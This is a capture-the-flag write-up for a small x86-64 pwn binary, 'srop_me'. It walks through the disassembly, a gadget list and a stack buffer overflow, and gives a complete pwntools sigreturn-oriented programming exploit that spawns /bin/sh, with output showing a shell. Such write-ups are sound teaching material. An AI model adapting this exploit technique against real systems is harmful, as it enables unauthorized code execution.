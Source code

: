 ```yaml
---
title: ASM
date: 2023-06-10
author: sunbather
tags:
  - pwn
  - srop
---
```


## Description of the challenge

What can I say except, "You're welcome" :) 

Author: NoobHacker

## Solution

The binary name is``srop_me``, so we can assume this is an srop challenge. The binary is so small we can just objdump it. Seems like the source code was written in assembly.

```asm
srop_me:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <vuln>:
  401000:	b8 01 00 00 00       	mov    eax,0x1
  401005:	bf 01 00 00 00       	mov    edi,0x1
  40100a:	48 be 00 20 40 00 00 	movabs rsi,0x402000
  401011:	00 00 00 
  401014:	ba 0f 00 00 00       	mov    edx,0xf
  401019:	0f 05                	syscall 
  40101b:	48 83 ec 20          	sub    rsp,0x20
  40101f:	b8 00 00 00 00       	mov    eax,0x0
  401024:	bf 00 00 00 00       	mov    edi,0x0
  401029:	48 89 e6             	mov    rsi,rsp
  40102c:	ba 00 02 00 00       	mov    edx,0x200
  401031:	0f 05                	syscall 
  401033:	48 83 c4 20          	add    rsp,0x20
  401037:	c3                   	ret    

0000000000401038 <_start>:
  401038:	e8 c3 ff ff ff       	call   401000 <vuln>
  40103d:	b8 3c 00 00 00       	mov    eax,0x3c
  401042:	bf 00 00 00 00       	mov    edi,0x0
  401047:	0f 05                	syscall 
  401049:	c3                   	ret    

Disassembly of section .rodata:

0000000000402000 <msg>:
  402000:	48                   	rex.W
  402001:	65 6c                	gs ins BYTE PTR es:[rdi],dx
  402003:	6c                   	ins    BYTE PTR es:[rdi],dx
  402004:	6f                   	outs   dx,DWORD PTR ds:[rsi]
  402005:	2c 20                	sub    al,0x20
  402007:	77 6f                	ja     402078 <binsh+0x69>
  402009:	72 6c                	jb     402077 <binsh+0x68>
  40200b:	64 21 21             	and    DWORD PTR fs:[rcx],esp
  40200e:	0a                 	or     ch,BYTE PTR [rdi]

000000000040200f <binsh>:
  40200f:	2f                   	(bad)  
  402010:	62                   	(bad)  
  402011:	69                   	.byte 0x69
  402012:	6e                   	outs   dx,BYTE PTR ds:[rsi]
  402013:	2f                   	(bad)  
  402014:	73 68                	jae    40207e <binsh+0x6f>
```
You can notice the program does a write to stdout with the first syscall in ``<vuln>`` (writes the bytes found at ``0x402000`` ``<msg>``) and then reads 0x200 bytes with the second syscall in ``<vuln>``. It is obvious this is a buffer overflow, so we have control of RIP. The problem here is that we can neither ret2libc (we lack any library to jump to) and we can't ROP chain either, because the binary is super small. We can use the hint and SROP the binary. The idea is to craft a sigreturn frame on the stack and then call the ``sys_rt_sigreturn`` syscall to call ``execve`` with ``/bin/sh`` as arguments. We look at the ROP gadgets found:
```
0x000000000040102e : add al, byte ptr [rax] ; add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401028 : add byte ptr [rax - 0x77], cl ; out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401010 : add byte ptr [rax], al ; add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401043 : add byte ptr [rax], al ; add byte ptr [rax], al ; syscall
0x000000000040103f : add byte ptr [rax], al ; add byte ptr [rdi], bh ; syscall
0x0000000000401011 : add byte ptr [rax], al ; add byte ptr [rdx + 0xf], bh ; syscall
0x0000000000401040 : add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401012 : add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401017 : add byte ptr [rax], al ; syscall
0x0000000000401041 : add byte ptr [rdi], bh ; syscall
0x0000000000401030 : add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401013 : add byte ptr [rdx + 0xf], bh ; syscall
0x000000000040102d : add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401032 : add eax, 0x20c48348 ; ret
0x0000000000401034 : add esp, 0x20 ; ret
0x0000000000401033 : add rsp, 0x20 ; ret
0x000000000040103e : cmp al, 0 ; add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401042 : mov edi, 0 ; syscall
0x000000000040102c : mov edx, 0x200 ; syscall
0x0000000000401014 : mov edx, 0xf ; syscall
0x000000000040102a : mov esi, esp ; mov edx, 0x200 ; syscall
0x0000000000401029 : mov rsi, rsp ; mov edx, 0x200 ; syscall
0x000000000040102b : out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401037 : ret
0x0000000000401019 : syscall
```
We have the syscall gadget, but no way of really controlling RAX, to be able to call ``sys_rt_sigreturn``. However, we can use the previous syscall to control RAX. The return code of a syscall is written to RAX. For example, the read call will change RAX to however many bytes we've read. So we could use the read to setup the sigreturn frame on the stack and then return back to the read syscall, to read some more. Then we read exactly 15 bytes, to prepare ``RAX=0xf`` for ``sys_rt_sigreturn``. Then we return to syscall and execute the frame prepared:
```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./srop_me")
target = remote("challs.n00bzunit3d.xyz", 38894)

sh_addr = 0x000000000040200f
syscall_gadget = 0x0000000000401019
read_gadget = p64(0x40101b)

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 32 + read_gadget + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.sendline(b"a" * 0xe) # read 0xe bytes becuase it also reads the newline
target.interactive()
```

Run the exploit:
```
[+] Starting local process './srop_me': pid 32381
[*] Switching to interactive mode
Hello, world!!
$ whoami
sunbather
```

Shells achieved.
